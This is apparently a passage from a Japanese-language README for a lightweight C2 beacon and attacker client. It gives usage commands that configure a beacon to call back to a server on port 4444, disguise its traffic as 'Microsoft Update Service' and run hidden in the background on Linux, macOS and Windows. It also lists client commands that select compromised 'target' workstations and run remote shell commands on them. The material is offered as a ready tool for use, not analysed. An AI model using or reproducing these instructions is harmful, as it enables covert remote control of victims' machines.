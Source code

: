#### 設定ファイル使用
```bash
# 設定ファイル作成
cat > beacon_config.txt << EOF
server=192.168.1.100
port=4444
beacon_id=target_workstation
sleep=45
jitter=0.3
stealth=true
user_agent=Microsoft Update Service
EOF

# 設定ファイルで実行
python3 lightweight_beacon.py -c beacon_config.txt
```

#### バックグラウンド実行
```bash
# Linux/macOS
nohup python3 lightweight_beacon.py -c config.txt > /dev/null 2>&1 &

# Windows
pythonw lightweight_beacon.py -c config.txt
```

### 攻撃者クライアント

#### 接続
```bash
python3 attacker_client.py -s <C2サーバIP> -p 4444
```

#### コマンド一覧
```bash
# 基本コマンド
beacons                    # アクティブBeacon表示
use <beacon_id>           # Beacon選択
clear                     # 選択解除
help                      # ヘルプ表示
quit                      # 終了

# Beacon操作
cmd <command>             # コマンド送信
info [beacon_id]          # Beacon詳細情報
history                   # コマンド履歴

# 直接入力（Beacon選択後）
whoami                    # ユーザー確認
pwd                       # 現在ディレクトリ
ls / dir                  # ファイル一覧
ps / tasklist            # プロセス一覧
```
